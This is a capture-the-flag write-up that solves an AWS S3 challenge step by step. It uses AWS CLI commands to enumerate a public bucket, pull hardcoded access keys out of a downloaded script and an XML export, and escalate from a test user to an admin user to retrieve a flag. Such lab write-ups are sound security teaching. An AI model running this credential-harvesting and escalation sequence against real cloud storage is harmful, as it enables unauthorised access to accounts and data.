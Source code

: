 # s3 Enumeration
## Analyze the challenge


The challenge asks to find the flag in the AWS S3 bucket `dev.challenge.com` which is related to a website found in a phished employee's bookmarks.
The flag format is MD5 hash unless specified otherwise.

## Plan of action

1. **Website Inspection:** Analyze the website and its source code.
2. **S3 Bucket Enumeration:** Use the AWS CLI to interact with the S3 bucket.
3. **Directory Exploration:** Investigate different directories within the bucket.
4. **File Download and Analysis:** Download and analyze files found in the bucket.
5. **Credential Discovery:** Identify and utilize AWS credentials found in the downloaded files.
6. **Privilege Escalation:** Escalate privileges by using discovered credentials to access more sensitive data.
7. **Flag Retrieval:** Locate and retrieve the flag.


1. **Website Inspection**

    -   Navigate to `http://dev.challenge.com`.
    -   View the page source to find references to an S3 bucket.
    -   The source code indicates that the S3 bucket `dev.challenge.com` is used for static files.


    The website itself doesn't reveal much, but the source code points to the S3 bucket, which is the next target.


2. **S3 Bucket Enumeration**

    -   Attempt to list the bucket contents using:
        -   `aws s3 ls s3://dev.challenge.com --no-sign-request`


    This command lists the bucket's contents, revealing several directories. The use of `--no-sign-request` is crucial for anonymous access.


3. **Directory Exploration**

    -   Attempt to recursively list all directories:
        -   `aws s3 ls s3://dev.challenge.com --no-sign-request --recursive` (fails for `admin` and `migration-files`)
    -   Check individual directories:
        -   `aws s3 ls s3://dev.challenge.com/admin --no-sign-request` (access denied)
        -   `aws s3 ls s3://dev.challenge.com/migration-files/ --no-sign-request` (access denied)
        -   `aws s3 ls s3://dev.challenge.com/static/ --no-sign-request` (accessible but contains only web files)
        -   `aws s3 ls s3://dev.challenge.com/shared/ --no-sign-request` (accessible and contains `hl_migration_project.zip`)


    The `admin` and `migration-files` directories are not publicly accessible. The `shared` directory contains a potentially interesting zip file.


4. **File Download and Analysis**

    -   Download `hl_migration_project.zip`:
        -   `aws s3 cp s3://dev.challenge.com/shared/hl_migration_project.zip . --no-sign-request`
    -   Unzip the archive:
        -   `unzip hl_migration_project.zip`
    -   Examine the `migrate_secrets.ps1` script.
        -   `cat migrate_secrets.ps1`


    The zip file was downloaded. The PowerShell script inside contains hardcoded AWS credentials.


5. **Credential Discovery**

    -   The `migrate_secrets.ps1` script contains:
        -   `$accessKey = "xxxxxxxxxxxxxxxKXEHU"`
        -   `$secretKey = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxX/gb9"`
        -   `$region = "us-east-1"`
    -   Use `curl -I https://s3.amazonaws.com/dev.challenge.com/` to verify that the bucket is in `us-east-1`.
    -   Configure AWS CLI with these credentials:
        -   `aws configure` (Enter the access key, secret key, region as `us-east-1`, and leave the output format blank)
    -   Verify the credentials:
        -   `aws sts get-caller-identity` (This reveals the IAM user `pam-test`)


    The credentials were configured and verified. The `pam-test` user likely has limited permissions.

6. **Privilege Escalation**

    -   Try accessing the `/admin` directory again:
        -   `aws s3 ls s3://dev.challenge.com/admin/` (Lists `website_transactions_export.csv` and `flag.txt`)
    -   Attempt to download `flag.txt`:
        -   `aws s3 cp s3://dev.challenge.com/admin/flag.txt .` (access denied)
    -   Access the `/migration-files` directory:
        -   `aws s3 ls s3://dev.challenge.com/migration-files/`
    -   Download `test-export.xml`:
        -   `aws s3 cp s3://dev.challenge.com/migration-files/test-export.xml .`
    -   Examine `test-export.xml` for new credentials:
        -   `cat test-export.xml`
        -   AWS IT Admin:
            -   `AccessKeyID: xxxxxxxxxxxxxxFWFGCD`
            -   `SecretAccessKey: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxbnL4hY6jP`
    -   Configure AWS CLI with the new credentials:
        -   `aws configure`
    -   Verify the credentials:
        -   `aws sts get-caller-identity` (This reveals the IAM user `it-admin`)


    The `pam-test` user couldn't access `flag.txt` but could access `test-export.xml`, which contained credentials for `it-admin`. This is a clear case of privilege escalation.


7. **Flag Retrieval**

    -   Attempt to download `flag.txt` with the `it-admin` credentials:
        -   `aws s3 cp s3://dev.challenge.com/admin/flag.txt .`
    -   Read the contents of `flag.txt`:
        -   `cat flag.txt` (This reveals the flag)


    The `it-admin` credentials allowed access to `flag.txt`. The flag was successfully retrieved.



xxxxxxxxxxxxxxxxxxxxxxxxxxx086b8

